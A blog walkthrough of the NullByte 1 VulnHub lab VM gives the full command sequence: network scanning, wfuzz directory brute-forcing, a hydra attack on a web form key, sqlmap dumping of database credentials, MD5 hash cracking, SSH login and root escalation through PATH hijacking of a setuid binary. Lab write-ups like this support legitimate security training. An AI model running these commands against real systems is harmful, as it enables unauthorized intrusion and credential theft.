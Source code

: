 ```yaml
---
layout: post
title: "NullByte 1"
date: 2016-08-30 09:21:46 -0500
comments: true
categories: 
---
```

##Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto
* Strings
* Hydra


###Vulnerabilities:


<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`
{% img  /images/blog/vulhub/nullbyte/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.168 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.168 -p-`


{% img  /images/blog/vulhub/nullbyte/Selection_002.png   [title manually exploit [alt text]] %}

use Nikto to scan

`nikto -h 192.168.41.168`

{% img  /images/blog/vulhub/nullbyte/Selection_003.png   [title manually exploit [alt text]] %}

find phpMyAdmin directory

use wfuzz to scan

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.41.168/FUZZ 2>/dev/null`

{% img  /images/blog/vulhub/nullbyte/Selection_004.png   [title manually exploit [alt text]] %}

check the page:

{% img  /images/blog/vulhub/nullbyte/Selection_005.png   [title manually exploit [alt text]] %}

just a gif image. Download it and use strings to check

`strings main.gif`

{% img  /images/blog/vulhub/nullbyte/Selection_006.png   [title manually exploit [alt text]] %}

find `P-): kzMb5nVYJw`, try `192.168.41.168/kzMb5nVYJw`

{% img  /images/blog/vulhub/nullbyte/Selection_007.png   [title manually exploit [alt text]] %}

check the source:

{% img  /images/blog/vulhub/nullbyte/Selection_008.png   [title manually exploit [alt text]] %}

use hydra to crack the key:

`hydra 192.168.41.168 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^&:invalid key" -P /usr/share/wordlists/rockyou.txt -la -t 10 -w 30`

{% img  /images/blog/vulhub/nullbyte/Selection_009.png   [title manually exploit [alt text]] %}


got key is `elite`

enter the key, now we have another page:

{% img  /images/blog/vulhub/nullbyte/Selection_010.png   [title manually exploit [alt text]] %}


use sqlmap to get database name:
`sqlmap -u "http://192.168.41.168/kzMb5nVYJw/420search.php?usrtosearch=aaa" -p usrtosearch --dbs`

{% img  /images/blog/vulhub/nullbyte/Selection_015.png   [title manually exploit [alt text]] %}

use sqlmap to get tables of database mysql:

`sqlmap -u "http://192.168.41.168/kzMb5nVYJw/420search.php?usrtosearch=aaa" -p usrtosearch --dbms mysql -D mysql --tables`

{% img  /images/blog/vulhub/nullbyte/Selection_016.png   [title manually exploit [alt text]] %}

get column name of table user

`sqlmap -u "http://192.168.41.168/kzMb5nVYJw/420search.php?usrtosearch=aaa" -p usrtosearch --dbms mysql -D mysql -T user --columns`

{% img  /images/blog/vulhub/nullbyte/Selection_017.png   [title manually exploit [alt text]] %}

get Username and Password

`sqlmap -u "http://192.168.41.168/kzMb5nVYJw/420search.php?usrtosearch=aaa" -p usrtosearch --dbms mysql -D mysql -T user -C User,Password --dump
`

{% img  /images/blog/vulhub/nullbyte/Selection_018.png   [title manually exploit [alt text]] %}

` sqlmap -u "http://192.168.41.168/kzMb5nVYJw/420search.php?usrtosearch=aaa" -p usrtosearch --dbms mysql -D seth --tables`

{% img  /images/blog/vulhub/nullbyte/Selection_019.png   [title manually exploit [alt text]] %}


`sqlmap -u "http://192.168.41.168/kzMb5nVYJw/420search.php?usrtosearch=aaa" -p usrtosearch --dbms mysql -D seth -T users --columns`

{% img  /images/blog/vulhub/nullbyte/Selection_020.png   [title manually exploit [alt text]] %}

`sqlmap -u "http://192.168.41.168/kzMb5nVYJw/420search.php?usrtosearch=aaa" -p usrtosearch --dbms mysql -D seth -T users -C user,pass --dump`

{% img  /images/blog/vulhub/nullbyte/Selection_021.png   [title manually exploit [alt text]] %}

for ramses's password, it looks like md5, google it, go to [md5decoder](http://md5decoder.org/c6d6bd7ebf806f43c76acc3681703b81) get `omega`.

use this to login ssh 

`ssh ramses@192.168.41.168 -p 777`

get the shell:

{% img  /images/blog/vulhub/nullbyte/Selection_022.png   [title manually exploit [alt text]] %}

try command `history`

{% img  /images/blog/vulhub/nullbyte/Selection_023.png   [title manually exploit [alt text]] %}

find it 

`find / -name "procwatch" 2>/dev/null`

in `/var/www/backup/procwatch`, backup, good.

check the file

`ls -alh /var/www/backup/procwatch`

{% img  /images/blog/vulhub/nullbyte/Selection_024.png   [title manually exploit [alt text]] %}

found it’s setuid

run it

{% img  /images/blog/vulhub/nullbyte/Selection_025.png   [title manually exploit [alt text]] %}

find it just run sh and ps

copy /bin/sh to /var/www/backup

`cp /bin/sh /var/www/backup/ps`

add it to PATH

```
export PATH=/var/www/backup:$PATH
echo $PATH
```

run it `./procwatch` get root


{% img  /images/blog/vulhub/nullbyte/Selection_026.png   [title manually exploit [alt text]] %}


